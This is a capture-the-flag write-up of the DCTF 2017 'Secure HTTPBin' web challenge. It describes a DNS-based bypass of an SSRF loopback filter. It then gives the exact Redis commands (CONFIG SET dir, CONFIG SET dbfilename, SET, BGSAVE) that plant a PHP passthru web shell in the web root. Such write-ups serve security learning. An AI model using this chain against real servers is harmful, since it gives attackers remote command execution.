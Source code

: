 ```yaml
---
layout: post
ctf: "DCTF 2017"
title: "DCTF 2017 - Web - Secure HTTPBin"
---
```


    Test and debug your webserver with ease!
    Flag: https://secure-httpbin.dctf-quals-17.def.camp/flag.php
    Author: shark0der

First thing to notice is this message in the HTML source.

    <!--
    <span>We had other clients submitting their secrets and they sued us for breaching their security. We were not guilty but since we don't want this to happen again - we are not liable for any submitted secrets.</span><br>
    <span>By using this service you allow to our terms and conditions and agree that your data to be logged.</span><br>
    -->
    <!-- Note: Mark from Legal adviced to remove these ^ and temporarily stop logging until further clarification. -Tom


So some logging features was turned off but was it really turned off? Not quite. When submitting a URL to debug, you see that it used the GET parameter `?nolog`. If you submit the same request without this parameter, the application spits out errors about Redis.

    Warning: include(redis-config.php): failed to open stream: No such file or directory in /var/www/sandbox/exec.php on line 102
    Warning: include(): Failed opening 'redis-config.php' for inclusion (include_path='.:/usr/share/php') in /var/www/sandbox/exec.php on line 102
    Notice: Undefined variable: redis_host in /var/www/sandbox/exec.php on line 105
    Warning: Redis::connect(): php_network_getaddresses: getaddrinfo failed: Name or service not known in /var/www/sandbox/exec.php on line 105
    Fatal error: Uncaught RedisException: Redis server went away in /var/www/sandbox/exec.php:109 Stack trace: #0 /var/www/sandbox/exec.php(109): Redis->set('log_request_59d...', 'method=GET&url=...') #1 /var/www/sandbox/index.php(8): include('/var/www/sandbo...') #2 {main} thrown in /var/www/sandbox/exec.php on line 109

The first lines mentions that the file `redis-config.php` is not on the server. So it uses Redis and it is probably still running but the web application can't use it because it is not configured.

Going back to the main page, let's try to talk with Redis using HTTP. By doing a POST request, Redis will receive all the usual HTTP headers that is included in the request but will ignore them by saying the command does not exist. The POST body can contain actual Redis commands and Redis will hapily execute them.

<img src="https://i.imgur.com/b1cDRrQ.png">

Unfortunately, the application does not allow direct loopback access. Even if we try to pass a DNS address, it will try to resolve it to check it does not point to the loopback address.

    127.0.0.1Error: Invalid URL: IP range not allowed

At this point I assumed that the check was done using a PHP function such as `gethostbyname` and that we can probably bypass the check by using a DNS A entry with two IP addresses. This is the setup I had in Cloudflare.

<img src="https://i.imgur.com/SA8HKFu.png">

It happens that the function `gethostbyname` returns each IP with a probably of 50%.

    php > echo gethostbyname("ctf4.bcj.io");
    127.0.0.1
    php > echo gethostbyname("ctf4.bcj.io");
    1.2.3.4
    php > echo gethostbyname("ctf4.bcj.io");
    127.0.0.1
    php > echo gethostbyname("ctf4.bcj.io");
    1.2.3.4

After a couple of tries, it works! Redis answers my commands.

<img src="https://i.imgur.com/evDaACV.png">

I have then used the following commands to create a basic PHP shell on the server.

Change the current directory of Redis to the web root of the sandbox:

    CONFIG SET dir /var/www/sandbox

Set the name of the backup file that Redis uses in case of failure. The PHP extension will allow the backup file to be executed in PHP.

    CONFIG SET dbfilename becojo.php

I then insert a value in the database with the PHP code I want to execute. This string will be in plain text in the backup file.

    SET shell "<?php passthru($_GET['c']) ?>"

Finally, trigger a background save which will save the dump file into /var/www/sandox/becojo.php

    BGSAVE

The Redis server responds:

<img src="https://i.imgur.com/pEMpiDQ.png">

Everything seems fine and we have a shell and a flag.

<img src="https://i.imgur.com/UPEcccX.png">

---

Becojo - NorthernCoalition
